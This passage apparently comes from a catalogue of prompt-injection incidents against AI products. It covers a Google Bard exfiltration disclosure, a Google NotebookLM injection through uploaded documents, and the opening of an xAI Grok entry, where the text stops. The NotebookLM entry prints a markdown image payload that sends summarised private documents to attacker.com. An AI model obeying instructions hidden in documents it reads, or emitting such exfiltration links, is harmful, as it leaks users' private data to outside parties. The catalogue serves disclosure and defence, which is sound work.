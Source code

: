 **Financial Cost:** Not disclosed

**Disclosure Timeline:**
- **September 19, 2023:** Reported to Google VRP by Johann Rehberger, Joseph "rez0" Thacker, Kai Greshake
- **Exploit Demonstrated:** Within 24 hours of Bard Extensions launch
- **October 2023:** Google confirmed fix implemented
- **Status:** Patched

**Source:**
- https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/
- https://www.hackerone.com/blog/how-prompt-injection-vulnerability-led-data-exfiltration

---

### 4. Google NotebookLM Prompt Injection (2024)
**System:** Google NotebookLM
**Date:** April 2024
**CVE Number:** Not assigned

**Attack Vector:**
- Classic prompt injection via uploaded source documents
- Attackers create documents with hidden instructions (PDF, text files, web sources)
- When user uploads malicious document, NotebookLM processes instructions as commands
- Markdown image exfiltration: `![leak](https://attacker.com/collect?data=summary-of-private-documents)`
- Hyperlinks and images rendered automatically as data exfiltration channel

**Technical Exploitation:**
- **Uploaded File Manipulation:** Source documents contain prompt injection payloads
- **Chat Conversation Hijacking:** Malicious files manipulate chat responses
- **Markdown Rendering:** Automatic hyperlink and image rendering sends data to external domains
- **LLM Summarization Abuse:** NotebookLM summarizes private data and appends to attacker URL

**Data Leaked:**
- Private uploaded documents
- Chat summaries
- User queries

**User Base:** NotebookLM users processing untrusted documents

**Financial Cost:** Not disclosed

**Outcome:**
- **April 2024:** Discovered by Johann Rehberger
- **Reported to Google:** Vulnerability documented publicly
- **Status:** Mitigation efforts likely implemented (no public confirmation of full fix)

**Source:**
- https://embracethered.com/blog/posts/2024/google-notebook-ml-data-exfiltration/
- https://simonwillison.net/tags/exfiltration-attacks/

---

### 5. xAI Grok iOS App Data Leakage (2025)
**System:** xAI Grok iOS Application
**Date:** January 2025 (dedicated app launch)
**CVE Number:** Not assigned
**Status:** **UNRESOLVED (iOS app remains vulnerable)**

